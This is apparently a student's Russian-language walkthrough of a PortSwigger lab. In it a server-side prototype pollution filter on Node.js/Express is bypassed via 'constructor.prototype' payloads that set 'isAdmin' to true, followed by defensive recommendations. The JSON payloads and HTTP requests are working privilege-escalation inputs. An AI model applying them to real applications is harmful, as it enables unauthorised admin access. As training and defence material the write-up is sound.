


лаба https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution

лаба на Node.js и Express Framework
###### Обход входных фильтров для загрязнения прототипа на стороне сервера

нужно загрязнить Object.prototype
попасть в админку и удалить карлоса

-------

вот запрос на смену данных
```json
POST /my-account/change-address HTTP/2
Host: 0adc000303044834821e3d1900b800bd.web-security-academy.net
Cookie: session=4aKTeInvKqRefGbqOjMh6JjJryLDv4PS
Content-Length: 173
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */
Origin: https://0adc000303044834821e3d1900b800bd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adc000303044834821e3d1900b800bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i


{

"address_line_1":"Wiener HQ6",
"address_line_2":"One Wiener Way6",
"city":"Wienerville6",
"postcode":"BU1 1RP6",
"country":"UK6",
"sessionId":"4aKTeInvKqRefGbqOjMh6JjJryLDv4PS"

}
```

вот ориг стандарт ответ на 466 байт
```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"ca-dcGfAnZW6Iq252yOMyQGxEy/GWo"
Date: Tue, 17 Mar 2026 12:57:31 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 202

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ6","address_line_2":"One Wiener Way6","city":"Wienerville6","postcode":"BU1 1RP6","country":"UK6","isAdmin":false}
```


------



запустил сканер


сканер нашел яузвимось потенциальную с
Using the technique reflection `__proto__.`

но в лабе сказано, что `__proto__.` блокируется, поэтому лучше я руками сделаю все это дело!

вот ответ сканера
```
Обнаружена проблема: Потенциальное загрязнение прототипа на стороне сервера из-за отражения объекта С использованием метода reflection __proto__. 
При проверке было обнаружено, что в ответе на атаку не содержался canary d5a347a2. Затем, позже, когда атака была пресечена, canary был найден.
```

----

пробую вручную пейлоады:

```json
{
"__proto__" :{"foo":"qwerty1417"},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV"}
```
ответ не изменился


---------

пробую с умышленной ошибкой
```json
{
"__proto__" :{"foo":"qwerty1417",},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV"}


ответ

{"error":{"expose":true,"statusCode":400,"status":400,

"body":"{\r\n\"__proto__\" :{\"foo\":\"qwerty1417\",},\r\n\"address_line_1\":\"Wiener HQ2\",\"address_line_2\":\"One Wiener Way2\",\"city\":\"Wienerville2\",\"postcode\":\"BU1 1RP2\",\"country\":\"UK2\",\"sessionId\":\"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV\"}","type":"entity.parse.failed"}}
```


---------
с прото нет никаких различий
пробую  `constructor`

```json
{
"constructor" :{"isAdmin":true},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV"}
```
ответ обычный на 466 байт

---------
пробую с  json spaces":10`
`"json spaces":10` - это опция (настройка) фреймворка Express, которая управляет форматированием JSON-ответов
```json
{
"constructor": {
    "prototype": {
        "json spaces":10
    }
},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV"}
```

ОТВЕТ ИЗМЕНИЛСЯ с 466 на 605
```json
{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ2",
          "address_line_2": "One Wiener Way2",
          "city": "Wienerville2",
          "postcode": "BU1 1RP2",
          "country": "UK2",
          "isAdmin": false,
          "json spaces": 10
}
```
отлично! вектор найден
уязвимость подтверждена!!!  ура!

---------

меняю на админа
```json
{
"constructor": {
    "prototype": {
        "isAdmin":true
    }
},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"MKlSw76Ffzw24yiAxcPJ5ybg9EbXN0SV"}
```

сработало!!!

```json

{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ2",
          "address_line_2": "One Wiener Way2",
          "city": "Wienerville2",
          "postcode": "BU1 1RP2",
          "country": "UK2",
          
👉 🍺  "isAdmin": true,  🍺👈

          "json spaces": 10
}
```




удаляю карлоса и лаба решена!!


#### вывод

сканер не смог найти прям уязвимость, но посказал направление в котором можно смотреть

прямой `__proto__` блокируется, но это получилось обойти через, 

```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
},
```

с constructor ответ поменялся, и даже при обычном оригинальном запросе  - > возвращал мне          `"json spaces": 10 ` значит - что этот параметр сохранился в самом сервере! 

---------------------------------
#### защита

от обхода фильтров через конструктор защищаются комплексно

`Во-первых`, фильтрация должна быть рекурсивной и удалять не только `__proto__`, но и ключи `constructor` и `prototype` из пользовательского ввода

`Во-вторых,` нужно замораживать прототипы через `Object.freeze(Object.prototype)`, чтобы никакие свойства нельзя было добавить даже в обход фильтров

`В-третьих`, использовать `Object.create(null)` для создания объектов без прототипа, особенно при работе с пользовательскими данными

`в-четвертых`, для хранения данных безопаснее применять `Map` вместо обычных объектов

`в-пятых`, регулярно обновлять зависимости, так как уязвимости в Express и body-parser уже исправлены в новых версиях
